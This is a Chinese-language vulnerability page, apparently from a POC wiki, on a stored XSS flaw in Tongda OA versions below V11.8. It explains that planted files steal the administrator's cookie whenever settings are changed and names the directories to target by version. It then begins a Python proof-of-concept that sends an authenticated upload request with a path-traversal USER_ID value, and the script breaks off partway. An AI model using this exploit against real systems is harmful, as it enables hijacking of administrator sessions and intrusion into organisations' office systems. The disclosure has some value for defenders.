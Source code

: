 这里XSS的利用点有4个文件夹，其中最有几率XSS的为**存储目录管理的文件夹**

![image-20220209111547012](/images/202202091115069.png)

用同样的方法上传利用文件，每次当管理员设置时就会盗取Cookie

## 漏洞POC

因为是xss可能对目标有影响，所以这里POC在一个不常用目录探测是否存在漏洞

Cookie填写访问后台时的Cookie, 其中的base64解码更改 PeiQi_Wiki为 自己的XSS语句

v11.6及以下 攻击 /general 和 /general/system/attachment 目录较好

v11.6以上 攻击  /general/system/attachment 目录较好

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
```